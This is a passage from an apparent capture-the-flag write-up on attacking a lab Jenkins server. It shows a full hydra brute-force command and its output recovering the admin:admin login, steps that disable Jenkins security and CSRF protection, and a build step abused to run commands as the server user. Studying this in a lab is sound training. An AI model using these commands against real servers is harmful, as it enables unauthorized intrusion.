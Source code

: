 Unfortunately, after a few minutes I'm going to be moving on from this. Let's go look at jenkins while this is running in the background and find out what the default administrative user is named. Maybe we can get in with default credentials.

After some research, it looks like the default administrator username for jenkins is "admin". Let's run hydra with the http_default_pass.txt in metasploit wordlists to try and get into this account.

```
hydra -s 8080 -l admin -P /usr/share/wordlists/metasploit/http_default_pass.txt 10.10.27.251 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Login=:Invalid username or password."
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-17 11:51:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 19 login tries (l:1/p:19), ~2 tries per task
[DATA] attacking http-post-form://10.10.27.251:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Login=:Invalid username or password.
[8080][http-post-form] host: 10.10.27.251   login: admin   password: admin                                                                    
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-17 11:51:37

```

Perfect, not only did we get an account... we got access to the admin account.

Since earlier we saw that 3389 was open, let's take a shot in the dark and try to RDP with the admin:admin credentials. No luck here, but was worth a try.

Let's login on port 8080 and take a look around.
* Go to people section to look for other users - none seen.
* Go to credentials - nothing seen here
* Go to manage jenkins - this shows that there is a lot of vulnerabilities with this Jenkins server.
* Scroll down in manage jenkins to Configure Global Security and disable it, turn off CSRF Protection and save.

Let's now try to search for a way to execute commands on the server so we can try and get a shell.

If we go to jobs>project>configure we can scroll down to the Build section and see that it executes a Windows batch command. It looks like the default command is a whoami.

Lets test this out to get some information. If we go to builds and view the console output, we can see the result of our script.

```
Started by user unknown or anonymous
Running as SYSTEM
Building in workspace C:\Program Files (x86)\Jenkins\workspace\project
[project] $ cmd /c call C:\Users\bruce\AppData\Local\Temp\jenkins822259080465788895.bat

C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>exit 0 
Finished: SUCCESS
```
